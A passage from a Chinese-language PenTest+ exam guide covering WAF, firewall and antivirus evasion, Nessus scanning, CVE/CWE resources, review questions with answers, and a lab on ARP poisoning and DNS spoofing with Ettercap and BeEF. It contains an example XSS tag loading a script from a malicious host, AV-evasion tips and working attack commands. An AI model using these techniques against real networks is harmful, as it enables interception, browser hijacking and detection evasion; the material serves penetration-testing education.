WAF 绕过也在很大程度上取决于所使用的软件，但 WAF 经常只进行最小化配置，以节省时间且不阻止合法业务，因此典型的攻击模式（如 `<script src=http://maliciousurl/mal.js>`）会被阻断，但不太常见的注入方法可能不会。一种常见技术是将攻击拆分到多个变量中。如果有名和姓两个字段，将名设为 `<script`，姓设为 `src=http://maliciousurl/mal.js>`。当应用程序将它们组合在一起时，它可能仍会解析该攻击，而 WAF 却未能察觉。其他技术包括使用 Unicode 编码值，或使用不太常见的滥用标签（如 ``），这也可能奏效。对于 SQL 注入漏洞，SQL 有各种可被滥用的结构。你可以通过使用编码值、添加随机注释、拆分值或其他技术，成功实施 SQL 攻击。


> **考试提示** 关于这些攻击风格有一些很棒的备忘单。学习这些将帮助你在考试题目中识别它们：
> - [`owasp.org/www-community/xss-filter-evasion-cheatsheet`](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
> - [`owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF`](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)
> - [`portswigger.net/web-security/cross-site-scripting/cheat-sheet`](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

防火墙绕过主要有两种类型：基于漏洞利用的绕过和基于过滤器的绕过。漏洞利用通常涉及向防火墙发送特制数据包，导致防火墙以特定方式崩溃，从而让攻击者执行命令。一个例子是针对 VxWorks 的 Urgent/11 漏洞发布，VxWorks 是一种流行的实时操作系统，用于嵌入式设备，包括某些防火墙。特制数据包能够滥用处理指令，实现远程代码执行，为攻击者提供了一种攻陷系统并获得设备访问权限或穿透设备的方法（[`blog.sonicwall.com/en-us/2019/07/wind-river-vxworks-and-urgent-11-patch-now/`](https://blog.sonicwall.com/en-us/2019/07/wind-river-vxworks-and-urgent-11-patch-now/)）。提醒一下，数据包构造在第 3 章中有更深入的介绍。

攻击者绕过防火墙的另一种方式是利用防火墙的错误配置或旨在使其更用户友好的功能。对于错误配置，安全管理员经常根据协议*应该*如何工作来设计控制。在三次握手中，客户端向服务器发送 SYN 请求，服务器回复 SYN-ACK，客户端以 ACK 和数据结束。为了阻止某些端口上的新连接，管理员可能会阻断 SYN 数据包，但如果攻击者以 ACK 数据包开始，它将被允许通过，因为规则会假设连接必须已经存在。

此外，某些管理员可能允许基于端口的流量，而不限制跨防火墙的方向性。假设发往服务器的请求以服务器上的目标端口 25 入站。管理员允许端口 25 上的流量，以便服务器接收请求并回复。然而，如果外部攻击者生成以端口 25 作为源端口的入站流量，该防火墙将允许其通过。使用 UDP 流量时这甚至更容易，因为你可以指定相同的源端口和目标端口，而不必担心会话管理。

协议辅助程序是另一个绕过目标。这些程序帮助为特定类型的多端口协议打开端口。例如，IRC 有一个通信通道，但直接客户端连接（DCC）使用单独的端口，可能被滥用以打开一条穿过防火墙通往内部主机的路径。Éric Leblond 在 CanSec West 上介绍了多种滥用类似协议的技术（[`home.regit.org/2012/03/playing-with-network-layers-to-bypass-firewalls-filtering-policy/`](http://home.regit.org/2012/03/playing-with-network-layers-to-bypass-firewalls-filtering-policy/)）。

免费的 Nmap 在线书籍也有一个关于防火墙颠覆的优秀页面，介绍了使用 Nmap 滥用防火墙的方法。它还解释了攻击原理，以便你可以使用 `hping3` 等其他工具执行类似攻击：[`nmap.org/book/firewall-subversion.html`](https://nmap.org/book/firewall-subversion.html)

####### 杀毒软件

杀毒软件（AV）绕过是一场不断演变的猫鼠游戏。随着攻击者想出新技术，AV 厂商也在不断改进产品。大多数 AV 产品仍然基于特征码，这意味着它们依赖文件指纹或特定模式匹配进行检测。然而，许多产品已增加了基于行为的检测组件，这些组件可以根据事件序列在主机上进行基本分析，或将样本发送到云端进行分析。


######## 规避 AV 检测

能够避免 AV 检测是后渗透阶段的基础。对于测试人员来说，最常用的攻击工具之一是 Metasploit。使用 `msfvenom`，攻击者可以生成载荷并创建可执行文件。然而，代码被注入到一个模板中，而该模板很容易被大多数 AV 厂商检测到。通过使用不同的模板，你有能力绕过许多 AV 扫描。Black Hills Information Security 有一篇优秀的文章详细介绍了如何执行此类攻击：[`www.blackhillsinfosec.com/advanced-msfvenom-payload-generation/`](https://www.blackhillsinfosec.com/advanced-msfvenom-payload-generation/)

许多攻击者正转向使用 C# 进行漏洞利用，因为它在使用 PowerShell 或直接系统调用方面更加灵活，例如，并且比基于 C 语言的漏洞利用更容易定制。C# 使用程序集而不是编译后的代码。这使得 AV 厂商更容易反汇编漏洞利用代码并获取原始代码，以便执行字符串匹配并进行额外分析。规避字符串匹配的一个简单方法是更改 `ProjectGuid`、归属工件，然后在文件上运行 `ConfuserEx` 以随机化名称和变量。这通常足以绕过基于特征码的控制。

结合 Shellcode 和 C# 是另一种选择。攻击者可以使用 C# 创建一个应用程序，将 Shellcode 注入其他进程或直接执行。这样，数据可以被编码或以其他方式修改，使得基于特征码的检测不再匹配漏洞利用结构。SpectreOps 有一篇不错的博客文章介绍了这一点：[`posts.specterops.io/offensive-p-invoke-leveraging-the-win32-api-from-managed-code-7eef4fdef16d`](https://posts.specterops.io/offensive-p-invoke-leveraging-the-win32-api-from-managed-code-7eef4fdef16d)

PowerShell 是绕过 AV 的另一种好方法。大多数 AV 产品使用反恶意软件扫描接口（AMSI）来检测 PowerShell 中的恶意代码。然而，PowerShell 中存在许多已知的 AMSI 绕过技术。结合脚本块日志记录绕过，这意味着代码可以在内存中执行而无需额外审查。将数据引入 PowerShell 可以通过 HTTPS、编码或加密文件，或你想出的任何新颖技术来实现。归根结底，缺乏可见性是这种绕过技术流行的原因。

许多行为分析技术会寻找按顺序发生的活动。通过添加延迟、拆分工作或向代码中添加随机任务，这些行为可能看起来不够相关，从而无法触发基于行为的检测。不过，这高度依赖于 AV 工具，因此大多数测试人员在实验室中会针对几种不同的 AV 类型测试新技术，然后才会在实战中使用类似的东西。一如既往，如果你想出了一个计划在实战中使用的新技术或绕过方法，请确保在你的 AV 测试产品中禁用了样本提交功能，并且不要将样本提交给在线检测引擎。否则，当你需要使用它们时，这些方法可能不再奏效！

### 漏洞扫描与分析

漏洞扫描是检查信息系统已知安全弱点的过程。此过程提供无需验证的结果。漏洞分析（或漏洞评估）是一种验证漏洞是否存在的系统方法。从本质上讲，扫描将确定是否存在值得调查的有趣内容，而分析则是验证漏洞可被利用的调查和研究过程。MITRE 和美国国家标准与技术研究院（NIST）是两个进行漏洞研究并向公众发布调查结果的组织。

Tenable Nessus（[`www.tenable.com`](https://www.tenable.com)）是一款远程漏洞扫描工具，可帮助自动化这些流程，是市场上最流行的商业产品之一。Nessus 提供基于 Web 的用户界面，使用户能够执行凭据扫描或非凭据扫描，这些扫描由 Nessus 策略控制。Nessus 策略定义了执行成功扫描所需的适当 Nessus 插件和配置值。Nessus 插件是用 Tenable 的专有脚本语言 Nessus 攻击脚本语言（NASL）开发的。每个插件包含漏洞信息、修复详情以及确定安全弱点存在与否的逻辑。插件通过唯一的插件 ID 进行标识，并归类为插件系列。图 2-36 提供了 Shellshock 漏洞的插件信息和输出示例。


**注意** 漏洞扫描不一定意味着“无漏洞利用”。一些工具（如 Tenable Nessus）提供的插件会连接到服务并发送实际的漏洞利用代码，如图 2-36 的输出部分所示。在讨论范围界定和技术限制作为客户关系管理、合同和报告的一部分时，了解工具的能力非常重要。


**图 2-36** Tenable Nessus 插件输出

#### 凭据扫描与非凭据扫描

有多种原因导致你可能想要或不想要执行非凭据扫描。远程漏洞扫描器以产生相当数量的误报而闻名。针对目标执行空会话扫描有时仅是最佳猜测，这取决于扫描器及其正确识别服务指纹并可靠地将服务版本映射到已知漏洞的能力。然而，非凭据扫描展示了未受信任用户眼中的攻击面。组织可以分析结果并确定初始防御战术的重点优先级。认证扫描，或凭据扫描，有助于减少漏洞扫描器报告的误报数量，但除了减少不准确性之外，运行凭据扫描还有充分的理由——例如，能够根据拥有有效凭据的人的影响来确定漏洞，或验证权限，或在无需在脆弱环境中进行漏洞利用的情况下验证特定配置。Nessus 扫描策略允许用户指定扫描期间使用的凭据。可以在策略中配置多种凭据类别，包括云服务、数据库和基于主机的凭据（如 SSH），如图 2-37 所示。Nessus 还支持使用明文认证的协议的凭据，如 HTTP、FTP 和 Telnet。


**图 2-37** Tenable Nessus SSH 凭据

##### 漏洞扫描分析

诸如 Nessus 之类的漏洞扫描器提供了一个易于使用的界面，用于识别和研究扫描产生的漏洞。报告可以导出为多种格式，如 HTML、PDF、CSV 或 XML (Nessus)。扫描完成后，你可以深入研究结果以进一步调查漏洞。漏洞代表扫描生成的特定 NASL 输出。如果发现主机存在漏洞，将应用供方确定的适当严重级别：Critical（严重）、High（高）、Medium（中）、Low（低）或 Info（信息）。Nessus 背后的公司 Tenable 维护一个 YouTube 频道，其中包含常见 Nessus 功能和输出的示例视频，你可以从 Tenable 网站访问：[`www.tenable.com/nessus/resource-center`](https://www.tenable.com/nessus/resource-center)


**注意** Tenable Nessus 和其他漏洞扫描器不考虑环境因素，如架构部署、缓解控制和数据保护，这些因素可能会在组织眼中使影响变得更严重或不那么严重。


###### 插件输出与漏洞评分

插件输出还将为漏洞提供其他信息来源，例如风险信息、漏洞信息、参考信息，以及如果该漏洞存在已知的公开漏洞利用代码，通常会引用 `Metasploit` 模块。Nessus 在生成风险信息输出时，采用了来自 `NVD` 的 `CVSS` 评分系统。这有助于进行漏洞映射、确定弱点优先级，并识别每台主机的潜在漏洞利用代码。输出中提供了基础分和时效分，以及总体风险因子。插件输出和漏洞利用详情有助于权衡漏洞的总体影响。报告漏洞的严重级别可在 Nessus 的分析过程中进行修改。由渗透测试人员根据各种环境因素来确定真实影响。


**考试提示** 市场上有许多功能与 Tenable Nessus 相当的商业漏洞扫描产品，如 Rapid7 Nexpose、e-Digital Retina 和 QualysGuard。一个很早以前从 Nessus 分叉而来的开源漏洞扫描器称为 OpenVAS。与 Nessus 一样，它使用开源插件（由 `NASL` 开发）来自动化漏洞扫描。不过，考试不要求你了解所有这些工具或其功能，但对它们工作原理有基础性的了解将大有裨益。

###### 合规性与配置审计

在组织内维护标准非常重要，因为这意味着对可接受的行为或结果有信心达到独特的性能水平。技术标准具有强制力，且应反映组织政策。在第 1 章中，我们了解了不同类型的基于合规性的评估。`PCI DSS`、`HIPAA` 和 `FISMA` 是某些组织必须遵循的重要标准。有许多工具可用于根据配置评估技术满足这些标准的能力。Tenable Nessus 允许渗透测试人员使用预配置的扫描模板，对操作系统、云基础设施、移动设备管理器等的各种配置进行审计。运行基线有助于组织进行资产分类并实施行业最佳实践。互联网安全中心（`CIS`）（[`cisecurity.org`](https://cisecurity.org)）提供最佳实践安全配置基线，可用于应用配置指南以保护操作系统、软件和网络。

只要你不是顾问或不将其用于咨询，CIS 基准就是免费的。每个基准的技术评估标准已被实施到各种支持安全内容自动化协议（`SCAP`）的扫描工具中，例如 Tenable Nessus。`SCAP` 是一种使用特定标准来自动发现和衡量漏洞以及评估策略合规性的方法。Tenable Nessus 允许用户定义自定义合规性扫描，其中包括预配置或自定义开发的审计文件，这些是基于 `XML` 的文本文件，用于定义正在评估的策略标准。合规性扫描需要凭据，因为它们会对操作系统执行本地检查。CIS 合规性检查是评估技术资产配置合规性的众多方法之一。基线有助于定义一个折中方案和对组织政策的容忍度，因为并非所有技术都能像人们希望的那样被完全锁定。实践良好的安全卫生是一个常见主题，始于遵守最佳实践以及如何在组织内实施它们。合规性审计有助于强制执行组织配置策略，并提供关于资产应如何配置的指导。


**注意** `SCAP` 是由 `NIST` 维护的美国标准。有许多工具提供自动化合规性和漏洞扫描。`NIST` 在其网站上（[`csrc.nist.gov`](https://csrc.nist.gov)）维护一份经过 `SCAP` 验证的扫描工具列表。OpenSCAP（[`www.open-scap.org`](https://www.open-scap.org)）是一个开源项目，为基于 Linux 的操作系统提供各种配置基线和加固指南。

#### 漏洞研究来源

`MITRE` 是一个非营利组织，为开展漏洞研究和分析提供公共社区资源，例如通用漏洞披露（`CVE`）（[`cve.mitre.org`](https://cve.mitre.org)）；通用弱点枚举（`CWE`）（[`cwe.mitre.org`](https://cwe.mitre.org)）；通用攻击模式枚举与分类（`CAPEC`）（[`capec.mitre.org`](https://capec.mitre.org)）；以及对抗战术、技术和通用知识（`ATT&CK`）矩阵（[`attack.mitre.org`](https://attack.mitre.org)）。这些资源由外部组织赞助，例如美国计算机应急响应小组（`US-CERT`）和美国国土安全部（`DHS`），它们负责响应重大事件和威胁，并在全球范围内共享网络安全信息和知识。

##### CVE

`CVE` 将漏洞定义为“在软件和硬件组件中发现的计算逻辑弱点，被利用时会对机密性、完整性或可用性产生负面影响。”`CVE` 提供了一个公开披露漏洞的标识符列表。每个 `CVE` 由 CVE 编号机构（`CNA`）维护，并包含以下详细信息：

*   **CVE ID**（即“CVE-2018-0001”）
*   **漏洞简要描述**
*   **参考或公告**


**考试提示** 全球还有其他类似 `DHS` 和 `US-CERT` 的威胁情报、事件管理和网络安全信息共享组织，例如日本计算机应急响应小组（`JPCERT`）（[`www.jpcert.or.jp`](https://www.jpcert.or.jp)）和 CERT 协调中心（由卡内基梅隆大学运营）。不希望直接向供应商或通过漏洞赏金计划发布漏洞的安全研究人员，可以通过 CERT 漏洞报告表单（[`kb.cert.org/vuls/report/`](https://kb.cert.org/vuls/report/)）进行报告。

CVE 字典是记录公开披露漏洞的事实标准。`NIST` 维护国家漏洞数据库（`NVD`）（[`nvd.nist.gov`](https://nvd.nist.gov)），该数据库使用通用漏洞评分系统（`CVSS`）对已发布到 CVE 字典的漏洞进行分析。分析结果提供了指标，组织可利用这些指标确定漏洞被利用后对环境的总体影响。CVE 网站提供搜索功能，允许你在 CVE 列表中搜索 CVE 条目。图 2-38 显示了调查特定 CVE 时的示例搜索结果。这在漏洞已知时非常有用。然而，对于不为公众所知或在设计早期阶段被发现的软件漏洞，`CWE` 可作为替代的研究和参考来源。


**图 2-38** 搜索 CVE 列表


**注意** `CVSS` 计算器是一个综合工具，它在方程式中使用定性因素，根据特定环境条件给出严重程度评级。如果管理层喜欢一样东西，那就是数字。拥有一个具有既定评分标准的外部机构，有助于安全从业者证明其对特定漏洞严重性评估的合理性。

##### CWE


###### CWE 提供常见软件安全弱点列表及缓解措施

CWE 提供了一份常见软件安全弱点列表及缓解措施，用于实施良好的安全编码实践和软件设计。CWE 拥有超过 700 种常见软件安全弱点，分为三大类别，每个类别从不同角度评估问题：

- **Research concepts**（研究概念） 面向学术研究
- **Development concepts**（开发概念） 软件开发过程中遇到的弱点
- **Architectural concepts**（架构概念） 软件工程过程中遇到的弱点

还有其他基于相关性（如 SANS Top 10）或特定标准的外部映射和有用视图，例如“移动应用程序中的弱点”，展示了在移动应用程序中发现的安全弱点之间的关系。Android 或 iOS 开发人员可以参考此视图作为经验教训，实施最佳实践或为应用程序构建正式测试计划。与 CVE 类似，每个 CWE 都包含一组基本标识符：

- **Weakness ID**（弱点 ID）（例如 `CWE-941`）
- **Description of the weakness**（弱点描述）
- **Extended description of the weakness**（弱点扩展描述）
- **Relationships to other views**（与其他视图的关系）（例如研究、开发、架构等）
- **Modes of introduction**（引入模式）（弱点何时被引入）
- **Applicable platforms**（适用平台）（软件语言、操作系统等）
- **Common consequences**（常见后果）（即范围、影响和可能性）
- **Likelihood of exploit**（利用可能性）
- **Potential mitigations**（潜在缓解措施）
- **Memberships**（成员资格）（显示引用此弱点的其他类别或视图）

在 Individual Dictionary Definition 网页的下拉框中应用特定演示过滤器时，可以使用其他标识符来记录弱点并显示出来。Figure 2-39 示例展示了调查 CWE 时可以应用于内容的可用演示过滤器。虽然 CWE 和 CVE 提供了对开发弱点和安全漏洞的洞察，但 CAPEC 提供了对恶意行为者如何运作并利用组织弱点的理解。


**Figure 2-39**  CWE 演示过滤器


**NOTE**  Full Disclosure ([`seclist.org/fulldisclosure`](http://seclist.org/fulldisclosure)) 是一个公开的供应商中立论坛和邮件列表，发布漏洞分析细节、利用技术、讨论以及其他与安全相关的社区信息。用户可以免费注册并通过电子邮件接收自动更新。每个条目都包含深入的漏洞分析，比在 CVE 网站搜索时找到的更详尽。

### 章节回顾

使用正确的资源调查漏洞扫描和目标指纹识别结果以识别可用的漏洞利用，是成功渗透测试的基石。从主机和网络发现开始，信息收集和漏洞扫描是多步骤过程，可以通过通用工具和方法实现自动化。了解典型组织网络相关的常见端口和协议，在明确目标时有助于加快枚举过程。本章我们学习了研究漏洞和进行网络、Web、数据库漏洞及合规性扫描的各种方法。凭证漏洞扫描减少了误报，并提供了执行非凭证扫描时通常无法获得的主机深度洞察。我们还了解了嵌入式系统和其他非传统资产，以及这些设备在物联网整体中的作用。OWASP 为评估 Web 服务器和 Web 应用服务器的安全配置提供了指南和清单。最终，漏洞扫描和分析有助于漏洞映射、弱点优先级排序和漏洞利用识别。

################ 问题

**1.**  CVE 字典是一种用于记录哪种类型漏洞的标准？

**A.**  公开

**B.**  私下允许

**C.**  私下披露

**D.**  公开披露

**2.**  Nessus 插件是用哪种专有语言编写的？

**A.**  NCE

**B.**  NASL

**C.**  NSAL

**D.**  Nessus

**3.**  在渗透测试期间，你发现了一个 `sitemap.xml` 文件和一个 `crossdomain.xml` 文件。这些文件可以提供有用信息，用于映射 Web 目录和文件，否则这些内容必须通过暴力破解才能获取。另一个可以提供 URL 和 URI 位置并限制搜索引擎抓取特定位置的文件叫什么名字？

**A.**  `policy.xml`

**B.**  `site.txt`

**C.**  `robots.txt`

**D.**  `crossdomain.policy`

**4.**  哪种端口扫描方法也被称为半开扫描，它从未通过网络与目标主机建立真正的连接？

**A.**  TCP 扫描

**B.**  UDP 扫描

**C.**  SYN ACK

**D.**  SYN 扫描

**5.**  对目标进行端口扫描时，使用哪个 Nmap 标志来指定端口范围？

**A.**  `--p`

**B.**  `-p`

**C.**  `-Pn`

**D.**  `-ports`

*使用以下 Nmap 扫描输出来回答接下来的两个问题：*


**6.**  可能使用了哪个 Nmap 标志来确定每个端口的状态？

**A.**  `-sV`

**B.**  `–T5`

**C.**  `–reason`

**D.**  `-sT`

**7.**  可以使用哪个 Nmap 脚本来枚举托管在端口 80 上的服务的常见 Web 目录？

**A.**  `http-grep`

**B.**  `http-enum`

**C.**  `web-enum`

**D.**  `http-ntlm`

**8.**  主动信息收集最适合在以下哪种场景中使用？

**A.**  规划期间，以验证目标范围

**B.**  测试期间，当避免被检测是关键测试目标时

**C.**  测试期间，当避免被检测**不是**关键测试目标时

**D.**  当所有其他方法都失败时

#### 答案

**1.**  **D.** 正确答案是公开披露。虽然 CVE 编号可以为非公开披露的漏洞保留，但它是用于公开已知漏洞的标准。

**2.**  **B.** Nessus 攻击脚本语言 (NASL) 是正确答案。

**3.**  **C.** `robots.txt` 文件是正确答案。

**4.**  **D.** TCP SYN 扫描也被称为半开扫描，因为它从未完成三次握手。

**5.**  **B.** Nmap 中的 `-p` 标志选项将指定端口范围。另一方面，使用 `-p-` 将发起全端口扫描，针对所有可能开放的端口（65,535 个）。

**6.**  **C.** 服务检测 (`-sV`) 将尝试从服务检索横幅；然而，`--reason` 选项将提供 Nmap 选择特定端口状态的基本原理。

**7.**  **B.** `http-enum` 脚本是随 Nmap 安装包含的 NSE 脚本。该脚本将枚举典型 Web 应用程序服务中常见的 Web 文件夹。

**8.**  **C.** 主动信息收集涉及直接与目标交互。因此，你应该只在签订合同后且测试窗口期间使用它，此时你最不担心被检测到。

### 参考资料

**1.**  Censys 主机数据定义：[`search.censys.io/search/definitions?resource=hosts`](https://search.censys.io/search/definitions?resource=hosts)


### 参考资料

**[2]** Censys 证书数据定义：<https://search.censys.io/certificates/help/definitions?q=>

**[3]** Kali 文档：arp-scan：<https://tools.kali.org/information-gathering/arp-scan>

**[4]** Portswigger. Burp Suite Pro 文档：爬虫。<https://portswigger.net/burp/documentation/scanner/crawling>

**[5]** Rapid7 “什么是用户枚举？”：<https://www.rapid7.com/blog/post/2017/06/15/about-user-enumeration/#:~:text=User%20enumeration%20is%20when%20a,system%20that%20requires%20user%20authentication>

**[6]** OWASP Web 应用安全测试指南：账户枚举和可猜测用户账户测试 <https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/03-Identity_Management_Testing/04-Testing_for_Account_Enumeration_and_Guessable_User_Account>

**[7]** Rapid7 Microsoft SQL Server SUSER_SNAME SQL 登录枚举 <https://www.rapid7.com/db/modules/auxiliary/admin/mssql/mssql_enum_sql_logins/>

**[8]** Wafalyzer：<https://github.com/NeuraLegion/wafalyzer>

**[9]** wafw00f：<https://github.com/EnableSecurity/wafw00f>

**[10]** Pentest Laboratories. AMSI 绕过方法。<https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/>

## 第 3 章：基于网络的攻击

在本章中，您将学习

- 如何研究攻击向量并执行网络攻击
- 利用名称解析漏洞
- 可用性压力测试
- 密码攻击
- 基于漏洞研究漏洞利用
- 各种类型的第 2 层攻击
- 了解如何使用工具进行网络数据包操纵
- 识别常见的协议和文件共享漏洞利用

本章将详细介绍在渗透测试期间攻击和利用基于网络的漏洞的多种方式。对于 PenTest+ 考试，CompTIA 将各种操作系统服务和第 2 层攻击归类为基于网络的类别。基于网络的漏洞可能导致目标操作系统被攻陷、权限提升，甚至服务性能丧失或下降。大多数基于网络的漏洞可以在漏洞评估期间被识别出来，方法是使用像 `Nessus` 这样的漏洞扫描工具，或通过进行漏洞研究。`Metasploit Framework`（<https://www.metasploit.com>）或 `SearchSploit`（<https://www.exploit-db.com/searchsploit>）可用于验证在漏洞评估期间识别出的漏洞的公开漏洞利用代码。在调查各种类型的基于网络的攻击时，我们将使用这些工具及其他工具。

### 名称解析漏洞利用

不同的基于主机和基于网络的协议及服务提供名称解析功能。**协议**（**protocol**）是一组正式规则，描述如何发送和接收数据的功能，而**服务**（**service**）是为特定计算平台执行协议正式规则的软件实现。许多协议适用于名称解析，但我们将讨论域名系统（`DNS`）、本地链路多播名称解析（`LLMNR`）和 `NetBIOS`，它们根据查找发生的位置提供主机名到 IP 的解析。`DNS` 在应用层工作，为连接到互联网或专用网络的设备提供基本的查找服务。`LLMNR` 和 `NetBIOS` 由 Microsoft 操作系统使用，允许客户端帮助提高网络通信效率，并不发送可在本地局域网（`LAN`）内部解析的查找请求到网络外部。`NetBIOS` 和 `LLMNR` 作为遗留计算机名称注册和解析服务 Windows Internet Name Service（`WINS`）的一部分，代表 `TCP/IP` 协议栈实现。Active Directory Domain Services（`AD DS`）是 Windows 对 `DNS` 服务器的实现，而 `DNS` 客户端是支持客户端主机名解析查找的服务；它在较新版本的 Windows 中默认安装。Linux 通过使用**守护进程**（**daemons**）实现诸如 `DNS` 之类的协议。例如，使用 `BIND` 进行 `DNS` 的 UNIX/Linux 系统运行一个名为 `named` 的守护进程。`Named` 作为服务运行，可用于将域主机名转换为内部和外部网络的 IP 地址。`DNS` 客户端将通过端口 `53/udp` 向 `DNS` 服务器发送查询，希望收到包含相应 IP 地址或完全合格域名（`FQDN`）的应答。`DNS` 正向查找将请求 `DNS` 服务器为给定的 `FQDN` 提供 IP 地址，而反向查找将请求 `DNS` 服务器执行相反操作，为 IP 地址提供 `FQDN`。这些类型的查找是最基本的，图 3-1 显示了一个在 `Wireshark` 中捕获的针对 `example.com` 的 `DNS` 反向查找请求示例。在图中，您可以看到一个从内部源 IP 地址发往外部 `DNS` 服务器的 `DNS`“标准查询”，用于解析域名 `example.com`。`DNS` 服务器使用“标准查询应答”回复 `example.com` 对应的 IP 地址。


**图 3-1** DNS 正向查找请求

`DNS` 服务器应答请求后，会将结果连同生存时间（`TTL`）值一起缓存，这样就不必不断向其 `DNS` 根服务器提交相同的请求。一旦 `TTL` 过期，服务器将重新向其 `DNS` 根服务器提交请求并再次缓存该请求。如果配置不当，`DNS` 缓存请求会使 `DNS` 客户端容易受到缓存投毒和欺骗攻击。

#### DNS 欺骗和缓存投毒

`Nmap` 枚举脚本（`dns-cache-snoop.nse`）可协助对内部 `DNS` 服务器进行缓存窥探。缓存窥探的思路是查看目标在互联网上浏览哪些网站。这种信息泄露有助于各种攻击场景，包括

- **水坑攻击**（**Waterholing**） 如果攻击者知道组织经常访问的网站，攻击者可以用恶意软件感染该网站的网页。
- **DNS 欺骗**（**DNS spoofing**） 一种用于冒充受害者 `DNS` 服务器的攻击方法，强制受害者导航到恶意网站。
- **DNS 缓存投毒**（**DNS cache poisoning**） `DNS` 服务器上的 `DNS` 解析器缓存被恶意网址覆盖，用户将收到恶意网站而非预期网站。


##### 使用 Ettercap 和 BeEF 进行 DNS 欺骗

DNS 欺骗是通过旁路攻击（以前称为中间人攻击 [MITM]）技术实现的，用于监控并伪造响应消息以冒充合法主机。其目的是利用恶意重定向来攻击目标，或从伪造的网页（如冒充 Facebook 登录页面）窃取敏感信息。Ettercap（[`www.ettercap-project.org`](https://www.ettercap-project.org)）是一款渗透测试人员可用来对各种协议（包括 DNS）发起旁路攻击的工具。请跟随本练习，我们将冒充本地网关主机，强制目标访问一个执行 JavaScript 以挂载浏览器利用框架 的恶意网页。你需要一台 Kali 主机、Ettercap 0.8.2 版本（其他版本也可能适用这些说明），以及一个包含测试目标（如 Windows、Linux、iOS、Android 等）的局域网访问权限。


> **注意** Ettercap 默认预装在 Kali Linux 中。可在 Kali 中输入 `sudo apt install beef-xss` 来安装 BeEF。

**1.** 第一步是修改 `/etc/ettercap/etter.dns` 文件，并为域名 "example.com" 添加一条记录，使其指向你的恶意主机。在本例中，我们使用 Kali 主机的 IP：192.168.48.128。


**2.** 接下来，在 `/tmp` 目录下创建一个名为 `index.html` 的网页，使用 `hook.js` 文件加载 JavaScript BeEF 挂钩。当用户尝试连接 example.com 时，将被定向到此网页。内容应如下所示：


**3.** 现在，使用 Python http server 模块在端口 80 上托管该网页：

```
python -m SimpleHTTPServer 80
```

**4.** 然后，在终端窗口中使用命令 `sudo beef-xss` 启动 BeEF。网页加载后，使用你为 BeEF 创建的凭据登录。

**5.** 接下来，我们需要识别网络上的其他主机。我们可以使用 Nmap，通过仅使用 ARP 数据包来识别其他主机，指定 `-sn` 标志以禁用端口扫描，并使用 `-n` 标志以停止 IP 地址解析。

```
$ sudo nmap -n -sn 192.168.48.128/24
```

**6.** 在本例中，我们识别出另一台主机：192.168.48.129。现在你有了目标，请使用 `ip route` 命令查找本地网络的网关地址。


> **注意** 可以使用命令 `ettercap -G` 启动 Ettercap 的图形用户界面 (GUI)。但大多数攻击者更喜欢命令行工具，因为 GUI 并不总是可用。因此，了解命令行选项可能很重要。

**7.** 我们要在网关 (192.168.48.2) 和目标 (192.168.48.129) 之间建立一个 ARP 投毒会话。`-M` 标志设置 MITM（旁路）技术。在本例中，我们使用远程 arp 技术。`-T` 参数将其置于纯文本模式。`-q` 参数阻止 Ettercap 打印完整的数据包内容，使输出更具可读性。最后一部分是我们的网关和目标。这些可以按以下格式给出：`MAC 地址/IPv4 地址/IPv6 地址/端口`。注意斜杠！在本例中，我们不使用 MAC 或端口，所以斜杠分隔符处将为空。

```
$ sudo ettercap -M arp:remote -T -q /192.168.48.2// /192.168.48.129//
```

**8.** 运行 `ettercap` 命令后，你需要启用 DNS 插件。Ettercap 启动时，会提供访问帮助菜单的选项以了解如何操作。帮助菜单上的选项之一是插件。输入 `p` 可列出插件。我们将使用 `dns-spoof` 插件。


**9.** DNS 欺骗插件激活后，当受害者导航到网页 `http://example.com/index.html` 时，将看到你的挂钩页面。在 Ettercap 内部，你将看到欺骗成功。


要退出 Ettercap，请在运行它的窗口中按 `q`。


> **警告** ARP（地址解析协议）投毒/欺骗是一种攻击类型，恶意设备向网络上的其他主机发送虚假 ARP 消息，试图冒充另一台机器，从而将其 MAC 地址与网络上的另一主机 IP 关联。如果你对本地网络进行 ARP 欺骗，使它们认为你是网关，你的设备可能会被请求淹没，导致其他主机在网络上变得无响应。对于这些练习，我们建议使用实验室环境。

**10.** 在 BeEF 中，你现在可以在“Online Browsers”选项卡下看到目标设备。从这一点开始，你可以使用 BeEF 来攻击目标。


> **提示** 操作系统和浏览器通常会缓存名称解析信息以提高网络效率。如果 DNS 欺骗攻击失败，请先尝试清除目标的浏览器缓存。如果你使用 Microsoft Windows 操作系统作为目标，请尝试使用 `nbstat` 命令清除缓存。

#### 攻击 LLMNR 和 NetBIOS

你是否曾想过，当你映射网络驱动器或尝试通过网络访问基于 Microsoft Windows 的资源时，幕后发生了什么？好吧，如果这需要身份验证，为了方便，它必然会传递一些凭据。如果对用户来说很容易，对坏人来说也很容易。NetBIOS（网络基本输入/输出系统）于 20 世纪 80 年代在 RFC 1001 和 1002 下开发，有助于促进 Microsoft 应用程序在网络上的通信。NetBIOS 在 OSI 模型的传输层和会话层（第 4 层和第 5 层）运行，提供协议管理、消息传递和数据传输以及主机名解析等服务。NetBIOS 通过 TCP/IP (NetBT) 进行通信，并监听 137/UDP、138/UDP 和 139/TCP 端口。图 3-2 是根据 Microsoft TechNet Library 改编的插图，描述了 TCP/IP 协议套件中的 NetBT。NetBIOS 端口通常出现在局域网中，因为 NETBIOS 依赖于通过物理安全边界和隔离（也可通过防火墙和访问控制列表实现）来实施和控制大量的信任，因为它是一个非常“啰嗦”的协议，可能会暴露大量敏感的内部信息，例如网络域信息。


**图 3-2** TCP/IP 协议套件中的 NetBT 组件

